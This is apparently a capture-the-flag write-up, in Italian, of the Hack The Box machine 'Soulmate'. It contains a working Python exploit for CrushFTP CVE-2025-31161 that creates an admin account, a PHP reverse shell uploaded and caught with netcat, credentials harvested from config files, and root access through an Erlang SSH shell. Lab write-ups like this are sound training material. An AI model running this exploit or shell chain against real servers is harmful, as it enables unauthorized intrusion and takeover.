







# Soulmate


## Recon

```bash

$ nmap -p- --min-rate 1000 10.x.x.x             
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

$ nmap -p22,80 -sCV 10.x.x.x             
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soulmate.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

```bash

$ echo '10.x.x.x soulmate.htb' | sudo tee -a /etc/hosts

```

## Web APP


Credenziali utilizzate per la registrazione e l'accesso.

- `user:Password123!`

### File Upload


Possibile File Upload.



## Deep Recon

```bash

$ gobuster vhost --append-domain -u http://soulmate.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt 

Found: ftp.soulmate.htb Status: 302 [Size: 0] [--> /WebInterface/login.html]

```

Si aggiorna il file `/etc/hosts`.

```text

$ 10.x.x.x soulmate.htb ftp.soulmate.htb

```

## CrushFTP

> CrushFTP is a **file transfer server**.


**CVE-2025-31161**

[https://nvd.nist.gov/vuln/detail/CVE-2025-31161](https://nvd.nist.gov/vuln/detail/CVE-2025-31161)

## Authentication Bypass




Si costruisce ed esegue uno script per la creazione di un account con i privilegi di amministratore sfruttando la vulnerabilita'.

`CVE-2025-31161/exploit.py`
 
```python

import requests

url = "http://ftp.soulmate.htb:80/WebInterface/function/"
cookies = {"CrushAuth": "1743113839553_vD96EZ70ONL6xAd1DAJhXMZYMn1111"}
headers = {"Authorization": "AWS4-HMAC-SHA256 Credential=crushadmin/"}

c2f = cookies["CrushAuth"][-4:] # CrushAuth last 4 chars

username = 'user'; password = 'user'; 

payload = {
    "command": "setUserItem",
    "data_action": "replace",
    "serverGroup": "MainUsers",
    "username": username,
    "user": f'''<?xml version="1.0" encoding="UTF-8"?>
<user type="properties">
  <user_name>{username}</user_name>
  <password>{password}</password>
  <extra_vfs type="vector"></extra_vfs>
  <version>1.0</version>
  <root_dir>/</root_dir>
  <userVersion>6</userVersion>
  <max_logins>0</max_logins>
  <site>(SITE_PASS)(SITE_DOT)(SITE_EMAILPASSWORD)(CONNECT)</site>
  <created_by_username>crushadmin</created_by_username>
  <created_by_email></created_by_email>
  <created_time></created_time>
  <password_history></password_history>
  <admin>true</admin>
</user>''',
    "xmlItem": "user",
    "vfs_items": '<?xml version="1.0" encoding="UTF-8"?><vfs type="vector"></vfs>',
    "permissions": '<?xml version="1.0" encoding="UTF-8"?><VFS type="properties"><item name="/">(read)(write)(view)(delete)(resume)(makedir)(deletedir)(rename)(admin)</item></VFS>',
    "c2f": c2f
}

print("\nCVE-2025-31161")

resp=requests.post(url, headers=headers, cookies=cookies, data=payload)

print(f"\nResponse\n===============================\n{resp.text}")

if "<response_status>OK</response_status>" in resp.text:
    print(f"[+] Created a new user {username}:{password}\n")
else:
    print("[-] Errors\n")

```

```bash

$ python3 CVE-2025-31161/exploit.py    

CVE-2025-31161

Response
===============================
<?xml version="1.0" encoding="UTF-8"?> 
<result><response_status>OK</response_status><response_type>text</response_type><response_data></response_data></result>

[+] Created a new user user:user

```

Si tenta l'accesso con le credenziali `user:user`.




Funziona!

## Information Gathering

`User Manager`



Si ha la possibilita' di gestire i file del **server FTP** e degli utenti.

Utenti:

- `ben`
- `crushadmin`
- `jenna`
- `default`
- `TempAccount`

### Server's files

`/app`



Si scarica e analizza il contenuto in `app/`.

`CrushFTP11/`

```text

CrushFTP11
├── backup
├── CrushFTP.jar
├── CrushFTP.log
├── jobs
├── logs
├── passfile
├── plugins
├── prefs.XML
├── sessions.obj
├── shares
├── ssh_host_rsa_key
├── ssh_host_rsa_key.pub
├── statsDB
├── syncsDB
├── users
└── WebInterface

```

`passfile`

```text

04E2xAXYFfDsEYtu

```

Questa potrebbe essere la password per accedere con il profilo di amministrstore **crushadmin**.


Funziona! 

- `crushadmin:04E2xAXYFfDsEYtu`

`webProd`

```text

webProd
├── assets
│   ├── css
│   │   └── style.css
│   └── images
│       └── profiles
├── dashboard.php
├── index.php
├── login.php
├── logout.php
├── profile.php
└── register.php

```

Si effettua il caricamento di un'immagine in `soulmate.htb` e si visualizza nel file system del server l'immagine appena caricata.



IDEA: caricare come `crushadmin` nel server un file **.php** da sfruttare per ottenere una **web shell**.



> **PHP PentestMonkey** reverse shell [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

Si avvia un listener e si visita l'URL `http://soulmate.htb/revshell.php`.

```bash

$ nc -lvnp 9000
listening on [any] 9000 ...
connect to [10.10.16.28] from (UNKNOWN) [10.129.131.113] 39598
Linux soulmate 5.15.0-153-generic #163-Ubuntu SMP Thu Aug 7 16:37:18 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 10:06:46 up  1:08,  0 users,  load average: 0.02, 0.06, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$

``` 

Funziona!

Dopo aver fatto la "improve" della shell si ottiene la `user.txt`.

## Shell as Ben

```bash

www-data@soulmate:/$ cat /etc/passwd | grep -E "sh$"
root:x:0:0:root:/root:/bin/bash
ben:x:1000:1000:,,,:/home/ben:/bin/bash

```

Si ispeziona il file system, a partire dalla directory `/var/www/`.

```bash

www-data@soulmate:~$ ls -lah /var/www
total 16K
drwxr-xr-x  4 root root 4.0K Aug 27 09:24 .
drwxr-xr-x 13 root root 4.0K Sep  2 10:19 ..
drwxr-xr-x  2 root root 4.0K Aug 27 09:25 html
drwxr-xr-x  6 root root 4.0K Aug 10 10:39 soulmate.htb

```

In `/var/www/soulmate.htb/data/soulmate.db` contiene la password dell'utente `admin`.

```text

sqlite> PRAGMA table_info("users");
0|id|INTEGER|0||1
1|username|TEXT|1||0
2|password|TEXT|1||0
3|is_admin|INTEGER|0|0|0
4|name|TEXT|0||0
5|bio|TEXT|0||0
6|interests|TEXT|0||0
7|phone|TEXT|0||0
8|profile_pic|TEXT|0||0
9|last_login|DATETIME|0||0
10|created_at|DATETIME|0|CURRENT_TIMESTAMP|0

sqlite> SELECT username, password FROM users;
admin|$2y$12$u0AC6fpQu0MJt7uJ80tM.Oh4lEmCMgvBs3PwNNZIR7lor05ING3v2

```

Alla password e' stata applicata una funzione di hash (**Bcrypt**).

In `/var/www/soulmate.htb/config/config.php` sono presenti le configurazioni per l'applicazione e le credenziali di `admin` in chiaro.

```php

$adminPassword = password_hash('Crush4dmin990', PASSWORD_DEFAULT);
$adminInsert = $this->pdo->prepare("
    INSERT INTO users (username, password, is_admin, name) 
    VALUES (?, ?, 1, 'Administrator')
    ");
$adminInsert->execute(['admin', $adminPassword]);

```

- `admin:Crush4dmin990`

Si accede al profilo `admin`.


Si analizzano i processi in esecuzione nella macchina.

```bash

$ ps aux

root        1142  0.0  1.6 2251656 66704 ?       Ssl  08:57   0:07 /usr/local/lib/erlang_login/start.escript -B -- -root /usr/local/lib/erlang -bindir /usr/local/lib/er
lang/erts-15.2.5/bin -progname erl -- -home /root -- -noshell -boot no_dot_erlang -sname ssh_runner -run escript start -- -- -kernel inet_dist_use_interface {127,0,0,1}
 -- -extra /usr/local/lib/erlang_login/start.escript 

```

> **Erlang** is a programming language designed for building scalable real-time systems that require high availability. 

> **OTP**is a collection of middleware, libraries, and tools written in Erlang.

Questo programma viene eseguito con i privilegi di **root**.

Si analizza il contenuto di `/usr/local/lib/erlang_login/`.

```bash

www-data@soulmate:/$ ls -lah /usr/local/lib/erlang_login/                                                                                                               
total 16K                                                                                                                                                               
drwxr-xr-x 2 root root 4.0K Aug 15 07:46 .                                                                                                                              
drwxr-xr-x 5 root root 4.0K Aug 14 14:12 ..                                                                                                                             
-rwxr-xr-x 1 root root 1.6K Aug 14 14:12 login.escript                                                                                                                  
-rwxr-xr-x 1 root root 1.4K Aug 15 07:46 start.escript
 
```

Nel file `/usr/local/lib/erlang_login/start.escript` sono contenute le credenziali **SSH** di `ben`.

```text

#!/usr/bin/env escript                                                                                                                                                  
%%! -sname ssh_runner                                                                                                                                                   
                                                                                                                                                                        
main(_) ->                                                                                                                                                              
    application:start(asn1),                                                                                                                                            
    application:start(crypto),                                                                                                                                          
    application:start(public_key),                                                                                                                                      
    application:start(ssh),                                                                                                                                             
                                                                                                                                                                        
    io:format("Starting SSH daemon with logging...~n"),                                                                                                                 
                                                                                                                                                                        
    case ssh:daemon(2222, [                                                                                                                                             
        {ip, {127,0,0,1}},                                                                                                                                              
        {system_dir, "/etc/ssh"},                                                                                                                                       
                                                                                                                                                                        
        {user_dir_fun, fun(User) ->                                                                                                                                     
            Dir = filename:join("/home", User),                                                                                                                         
            io:format("Resolving user_dir for ~p: ~s/.ssh~n", [User, Dir]),                                                                                             
            filename:join(Dir, ".ssh")                                                                                                                                  
        end},                                                                                                                                                           
                                                                                                                                                                        
        {connectfun, fun(User, PeerAddr, Method) ->                                                                                                                     
            io:format("Auth success for user: ~p from ~p via ~p~n",                                                                                                     
                      [User, PeerAddr, Method]),                                                                                                                        
            true                                                                                                                                                        
        end},                                                                                                                                                           
                                                                                                                                                                        
        {failfun, fun(User, PeerAddr, Reason) ->                                                                                                                        
            io:format("Auth failed for user: ~p from ~p, reason: ~p~n",
                      [User, PeerAddr, Reason]),
            true
        end},

        {auth_methods, "publickey,password"},

        {user_passwords, [{"ben", "HouseH0ldings998"}]},
        {idle_time, infinity},
        {max_channels, 10},
        {max_sessions, 10},
        {parallel_login, true}
    ]) of
        {ok, _Pid} ->
            io:format("SSH daemon running on port 2222. Press Ctrl+C to exit.~n");
        {error, Reason} ->
            io:format("Failed to start SSH daemon: ~p~n", [Reason])
    end,

    receive                                       
        stop -> ok                                
    end. 
 
```

- `ben:HouseH0ldings998`

```bash

$ ssh ben@10.129.131.113

```

Funziona!

## Privilege Escalation

Il processo con privilegi di **root** `start.escript` e' in ascolto alla porta **2222**.

```bash

$ netstat -antp
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:9090          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:4369          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:35083         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:2222          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8443          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:44399         0.0.0.0:*               LISTEN      -                   
tcp        0      1 10.129.130.3:33528      1.1.1.1:53              SYN_SENT    -                   
tcp        0      0 127.0.0.1:4369          127.0.0.1:57522         ESTABLISHED -                   
tcp        0      0 127.0.0.1:57522         127.0.0.1:4369          ESTABLISHED -                   
tcp        0    412 10.129.130.3:22         10.10.16.28:43496       ESTABLISHED -                   
tcp6       0      0 ::1:4369                :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -  

```

L'utente `ben` puo' accedere al servizio tramite **SSH**.

SSH Tunneling

```bash

$ ssh -L 2222:127.0.0.1:2222 ben@10.129.130.3

```

```bash

$ ssh -p 2222 ben@127.0.0.1
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)                                                                                                                                             
(ssh_runner@soulmate)1> os:cmd("whoami").
"root\n"

```

```bash

(ssh_runner@soulmate)2> os:cmd("cat /root/root.txt").

"9f6949ffd8477ef35b9204d8f75cf1a8\n"


```

---

